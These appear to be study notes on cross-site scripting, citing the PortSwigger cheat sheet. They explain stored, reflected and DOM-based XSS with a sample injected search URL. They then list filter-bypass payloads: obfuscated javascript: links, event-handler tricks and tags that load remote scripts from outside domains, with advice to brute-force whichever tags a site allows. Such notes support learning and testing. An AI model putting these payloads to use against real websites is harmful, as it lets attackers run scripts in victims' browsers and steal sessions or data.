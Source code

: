 [Cross-Site Scripting (XSS) Cheat Sheet - 2023 Edition | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

It’s a type of injection which can allow an attacker to **execute malicious JavaScript** and have it execute on a victim’s machine.

1.  Stored XSS - the ***most dangerous type of XSS***. This is where a **malicious string originates from the website’s database**. This often happens when a website allows user input that is not sanitized (remove the "bad parts" of a users input) when inserted into the database.
2.  Reflected XSS - the malicious payload is part of the victims request to the website. The website includes this payload in response back to the user. To summarize, an *attacker needs to trick a victim into clicking a URL to execute their malicious payload*.
3.  DOM-Based XSS - DOM stands for Document Object Model and is a programming interface for HTML and XML documents. It represents the page so that **programs can change the document structure, style and content**. A web page is a document and this document can be either displayed in the browser window or as the HTML source.



---
# Reflected & Stored XSS
Suppose a website has a search function which receives the user-supplied search term in a URL parameter:
`https://insecure-website.com/search?term=gift`

The application echoes the supplied search term in the response to this URL:
`<p>You searched for: gift</p>`

Assuming the application doesn't perform any other processing of the data, an attacker can construct an attack like this:
`https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>`

This URL results in the following response:
`<p>You searched for: <script>/* Bad stuff here... */</script></p>`


***If most of the tags & attributes are blocked, perform a Bruteforce with all the tags & attributes from the Cheatsheet!***

***If All Event Listeners & href Attributes are Blocked, use the below cheatsheet :-***
```cheatsheet
<A/hREf="j%0aavas%09cript%0a:%09con%0afirm%0d``">z
<d3"<"/onclick="1>[confirm``]"<">z
<d3/onmouseenter=[2].find(confirm)>z
<details open ontoggle=confirm()>
<script y="><">/*<script* */prompt()</script
<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z
<a href="javascript%26colon;alert(1)">click
<a href=javas&#99;ript:alert(1)>click
<script/"<a"/src=data:=".<a,[8].some(confirm)>
<svg/x=">"/onload=confirm()//
<--`<img/src=` onerror=confirm``> --!>
<svg%0Aonload=%09((pro\u006dpt))()//
<sCript x>(((confirm)))``</scRipt x>
<svg </onload ="1> (_=prompt,_(1)) "">
<!--><script src=//14.rs>
<embed src=//14.rs>
<script x=">" src=//15.rs></script>
<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>
<iframe/src \/\/onload = prompt(1)
<x oncut=alert()>x
<svg onload=write()>
```
